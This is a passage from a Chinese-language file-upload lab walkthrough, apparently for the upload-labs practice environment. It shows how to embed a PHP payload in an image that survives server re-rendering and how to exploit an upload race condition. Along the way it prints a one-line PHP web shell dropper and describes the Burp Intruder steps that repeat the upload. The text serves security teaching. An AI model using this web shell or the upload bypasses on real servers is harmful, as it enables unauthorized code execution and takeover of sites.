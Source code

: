先用 Hex Friend 打开，在尾部添加一句话木马 `<?php phpinfo(); ?>`：

![](https://img.wukaipeng.com/2023/10/25-065615-image-20231025065614989.png)

我们下载上传后的图片，也用 Hex  Friend 打开，可以看下末尾，一句话木马已经被删除掉了。接着我们使用 Hex Friend 的对比功能：

![](https://img.wukaipeng.com/2023/10/25-065749-image-20231025065748851.png)



在查看对比的时候，可以看到只有后面大部分基本全部被改动过，只有前面部分改动比较小：

![](https://img.wukaipeng.com/2023/10/25-065930-image-20231025065930441.png)

![](https://img.wukaipeng.com/2023/10/25-070029-image-20231025070029644.png)

因此我们可以在前面部分插入一句话木马：

![](https://img.wukaipeng.com/2023/10/25-070316-image-20231025070316462.png)

然后重新上传，可以看到我们的一句话木马已经注入成功了。

> 如果没有成功的话，要多试几次
>
> 需要我这一张插入木马成功的 GIF 图，可以从这个地址下载：[⬇️ freedom gif](https://github.com/wukaipeng-dev/NetSecurity/blob/main/%E7%AC%AC%2009%20%E5%91%A8/%E8%AF%BE%E4%BB%B6/free%20freedom%20copy.gif) 

![](https://img.wukaipeng.com/2023/10/25-070405-image-20231025070404857.png)



### 文件包含绕过



## 服务端 - 代码逻辑（条件竞争）

**条件竞争**：服务端代码逻辑漏洞，导致资源没有正确被处理。比如并发的时候没有正确的加锁，导致多个线程同时访问

在 pass-18 中，文件是先上传再校验，因为可以利用上传到校验之间的空隙来执行木马。

先写一个 `cs.php` 脚本，脚本内容为生成一个 `shell.php` 文件，内容为 `<?php @eval($_POST["test"])?>`：

```php
<?php fputs(fopen('shell.php','w'), '<?php @eval($_POST["test"])?>');?>
```

上传 `cs.php`，用 Burp 拦截，并发送到 Intruder，然后在末尾加个空格，以此空格然后点击 `Add §` 按钮，生成一个「空格 Payload」：

![](https://img.wukaipeng.com/2023/10/25-080506-image-20231025080506730.png)

Payload type 选择「Null Payloads」，Payload settings 设置为「Continue indefinitely」，这样就能无限发送上传 `cs.php` 文件了：

![](https://img.wukaipeng.com/2023/10/25-081125-image-20231025081124979.png)

![](https://img.wukaipeng.com/2023/10/25-082843-image-20231025082843306.png)
